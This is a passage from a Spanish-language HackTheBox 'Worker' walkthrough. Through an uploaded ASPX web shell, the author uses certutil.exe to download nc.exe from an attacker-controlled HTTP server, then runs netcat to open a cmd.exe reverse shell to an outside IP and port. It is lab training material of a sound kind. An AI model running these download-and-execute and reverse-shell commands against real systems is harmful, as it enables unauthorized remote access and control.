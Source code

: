 Ahora si el archivo esta en la raiz del repo, entonces podremos ingresar a el mediante la siguente url: `http://lens.worker.htb/candelapura.aspx`:

![270pagedevopswebshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/worker/270pagedevopswebshell.png)

Perfectooooooooooooooooooooo, ahora podriamos subir el binario `netcat`, para mediante `certutil.exe` o `PowerShell` subirlo a la maquina y despues usarlo para entablarnos una reverse shell, a ver:

```powershell
#Web
/c dir c:\Windows\Temp

#Attack machine
–» ls
lens  nc.exe  repository_copy
–» python -m SimpleHTTPServer

#Web
/c certutil.exe -f -split -urlcache http://10.10.14.161:8000/nc.exe c:\Windows\Temp\nc.exe
```

![270pagedevopswebshellupnc](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/worker/270pagedevopswebshellupnc.png)

```powershell
#Web
/c c:\Windows\Temp\nc.exe 10.10.14.161 4433 -e cmd.exe
```

![270bashrevsh1done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/worker/270bashrevsh1done.png)

